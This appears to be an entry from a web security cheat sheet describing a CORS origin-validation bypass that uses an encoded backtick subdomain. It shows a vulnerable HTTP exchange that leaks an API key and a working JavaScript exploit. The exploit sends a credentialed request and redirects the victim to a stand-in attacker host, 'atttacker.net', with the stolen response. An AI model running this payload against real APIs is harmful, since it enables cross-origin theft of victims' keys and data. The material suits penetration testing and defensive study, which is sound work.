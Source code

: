 # Backtick Bypass

## Description
The origin verification is flawed and can be bypassed using a backtick ("`").

**Severity**: High

## Exploit 
Set the origin header to `%60.example.com`

### Vulnerable Implementation
```http
GET /endpoint HTTP/1.1
Host: api.example.com
Origin: https://%60.example.com

HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://%60.example.com
Access-Control-Allow-Credentials: true 

{"[private API key]"}
```

### Exploit
This exploit requires that the respective JS script is hosted at `%60.example.com`
```js
var req = new XMLHttpRequest(); 
req.onload = reqListener; 
req.open('get','https://api.example.com/endpoint',true); 
req.withCredentials = true;
req.send();

function reqListener() {
    location='//atttacker.net/log?key='+this.responseText; 
};
```
